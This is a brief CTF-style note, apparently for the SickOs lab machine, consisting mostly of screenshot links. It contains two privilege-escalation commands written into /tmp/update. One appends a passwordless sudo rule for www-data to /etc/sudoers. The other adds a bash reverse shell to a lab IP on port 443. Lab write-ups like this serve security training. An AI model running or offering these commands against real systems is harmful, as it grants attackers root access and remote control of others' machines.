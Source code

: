 # SickOs
29 March 2022
07:12 PM

<img src="sickOs/media/image1.png" style="width:5.95in;height:2.33333in" />

<img src="sickOs/media/image2.png" style="width:4.61667in;height:2.175in" />

<img src="sickOs/media/image3.png" style="width:6.54167in;height:1.59167in" />

<img src="sickOs/media/image4.png" style="width:6.5in;height:3.6in" />

<img src="sickOs/media/image5.png" style="width:6.49167in;height:3.09167in" />

<img src="sickOs/media/image6.png" style="width:4.54167in;height:0.75833in" />

<img src="sickOs/media/image7.png" style="width:6.48333in;height:1.65833in" />

<img src="sickOs/media/image8.png" style="width:6.45833in;height:1.88333in" />

<img src="sickOs/media/image9.png" style="width:6.33333in;height:3.99167in" />

echo 'echo "www-data ALL=NOPASSWD: ALL" &gt;&gt; /etc/sudoers && chmod 440 /etc/sudoers' &gt; /tmp/update
wait for few minutes
or
printf '#!/bin/bash\nbash -i &gt;& /dev/tcp/192.168.226.182/443 0&gt;&1\n' &gt;&gt; /tmp/update
chmod 777 /tmp/update

<img src="sickOs/media/image10.png" style="width:7.25833in;height:1.85in" />
